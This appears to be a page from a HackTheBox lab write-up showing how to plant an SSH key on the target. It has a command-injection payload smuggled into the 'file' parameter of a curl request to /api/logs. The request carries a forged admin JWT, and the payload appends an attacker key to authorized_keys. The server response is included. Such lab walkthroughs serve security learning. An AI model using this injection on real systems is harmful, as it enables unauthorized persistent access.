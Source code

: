 ### NOTE:- don't use your machines main SSH key. Always generate a new one.

## Use below command to genrate a new ssh public key.

```
ssh-keygen -t rsa -b 4096 -C 'villan@htb' -f secret -P ''
```

## before adding ssh key to system we need to ensure that system has .ssh/authorized_keys folder and file exists. Rather than manually checking, we can add commands that won’t overwrite any existing files or folders, but will create them if they don’t exist.

### for doing this first store the key in a bash variable.

```
export PUBLIC_KEY=$(cat secret.pub)
```

## Now using curl we can add key to the server.

```
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjM2ZjM2ZWY0OTkwYjA0NWNjNTUxZjkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InZpbGxhbkBkYXNpdGgud29ya3MiLCJpYXQiOjE2NDc3Njg0NDZ9.KveqKu9ClZqpisnK92Wq4y4meCJ82qc2VENMPZz2sIw' -G --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" 'http://10.10.11.120/api/logs'

```

## Explanation of the above command → -i = print headers, -G = sends data values using GET instead of POST, --data-urlencode = encode data parameters

### Result

```
HTTP/1.1 200 OK 
Server: nginx/1.18.0 (Ubuntu) 
Date: Sun, 20 Mar 2022 11:41:45 GMT 
Content-Type: application/json; charset=utf-8 
Content-Length: 27 
Connection: keep-alive 
X-Powered-By: Express 
ETag: W/"1b-pFfOEX46IRaNi6v8ztcwIwl9EF8" 
 
"ab3e953 Added the codes\n"
```

## Now let's access the server using ssh.
